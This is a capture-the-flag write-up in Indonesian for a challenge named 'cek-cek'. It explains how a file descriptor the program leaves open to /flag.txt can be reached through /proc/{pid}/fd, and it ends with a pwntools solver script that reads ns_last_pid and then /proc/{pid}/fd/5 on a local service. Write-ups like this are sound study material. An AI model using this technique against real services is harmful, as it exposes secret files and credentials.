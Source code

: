 # cek-cek

## Author
hilmo

## Description
Hei, aku baru belajar python. Semoga aku tidak melupakan sesuatu.

## Solution
Python code yang diberikan terdapat sebuah vuln dimana, `os.Open` tidak ditutup menggunakan `os.CLose()` sehingga symlink di file `/proc/{pid}/fd/{fd}` bisa digunakan untuk mengakses flag.txt.

```python
...
flag_file = os.open("/flag.txt", os.O_RDONLY)
flag_data = os.read(flag_file, 1024)
...
```

#### mendapatkan PID
PID bisa dilihat pada file `/proc/sys/kernel/ns_last_pid`

#### mendapatkan FD
Bagian ini kita harus mencari secara manual, karena flag dibuka diawal main function fd seharunysa kurang dari 10. Setelah manual mencari didapatkan fd = 5.
`/proc/{las_pid}/fd/5`

#### solver code
maka dapat dibuat file solver sebagai berikut

```python
from pwn import *

IP = "localhost"
PORT = 1337
p = remote(IP, PORT)

p.recvuntil(b">>> ")
p.sendline(b"1")
p.recvuntil(b"file name: ")
p.sendline(b"/proc/sys/kernel/ns_last_pid")
las_pid = p.recvline().decode().strip()

p.recvuntil(b">>> ")
p.sendline(b"1")
p.recvuntil(b"file name: ")
p.sendline(f"/proc/{las_pid}/fd/5".encode())

flag = p.recvline()
print(flag)
```
